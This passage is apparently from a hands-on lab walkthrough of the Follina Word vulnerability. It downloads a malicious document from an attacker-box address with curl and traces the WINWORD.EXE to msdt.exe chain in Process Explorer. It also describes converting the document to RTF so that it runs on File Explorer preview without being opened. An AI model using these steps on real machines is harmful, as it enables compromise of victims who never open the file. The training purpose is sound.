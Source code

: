 <p>Start the Windows machine and wait for it to initialize. When everything's settled, proceed to open a command prompt and enter the following command:</p>

<p><em>Maldoc Download</em></p>

```bash
Microsoft Windows [Version]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator> cd Desktop
C:\Users\Administrator\Desktop> curl http://[attackbox IP]:3456/follina.doc -o follina.docx
```

<p>This downloads the maldoc in our machine and as such, shortly after, you should be able to see the word file named follina.docx appear in the Desktop, ready to be run. When you're ready, open the file and watch what happens.<br>

 

For now, let's allow the maldoc and all of the stuff that it spawned, to remain running, while we examine the contents of the process explorer.</p>

<h3>Process Explorer</h3>
<p>Looking at the process explorer may be daunting as there are a ton of processes always running within the machine. In our case, we haven't done a lot of stuff with it and yet the number of running processes already covers the entire screen. This is where the importance of "making sense of the baseline", discussed in the first part of this task, is emphasized.<br>

If you don't have any established baseline, it's easy to get paranoid and everything will suddenly seem to be suspicious. This is where you start wasting your time checking each and every process there is - mainly because you're unfamiliar with each and every one of them.<br>

Scrolling through the processes, you'll be able to spot WINWORD.EXE immediately, followed by an msdt.exe child process. Somewhere in the list of processes you'll be able to see a process for the calculator as well which is the win32calc.exe. It might look something like this, although it's completely normal if the WINDWORD.EXE and the win32calc.exe are far away from each other.</p>

<img width="683" height="53" alt="image" src="https://github.com/user-attachments/assets/49dea496-e3d0-48b3-8c6e-81b463ae50c8" />

<p>Now, finding these artifacts are easy because we already know what to look for, but how do we tackle the ones that we don't know about, the so called unknown unknowns? Well, we can refer to the baseline that we have, we compare, and then we validate.</p>

<h3>"Zero Click" Implementation</h3>
<p>In order to replicate the “zero click” implementation of this vulnerability, we simply head to the malicious word file, add a cute message (completely optional),  save it in the Rich Text Format (RTF), and we’re good to go. This implementation assumes that the victim machine is in the preview pane view, else it will revert to the original functionality which will still run upon opening of the file.<br>

Open the file explorer and navigate to the Desktop folder. There you will see the seemingly honest file that we made that needs clicking, proceed to click it once careful not to actually open it and see what will happen.<br>

Despite not actually opening the file, the exploit ran in the same manner that it did earlier in this exercise. This happened because of two key features: 1) the feature of the File Explorer to preview files before opening them, and 2) the RTF which allows the feature of document files being able to be previewed in the File Explorer before being opened (among other purposes).<br>
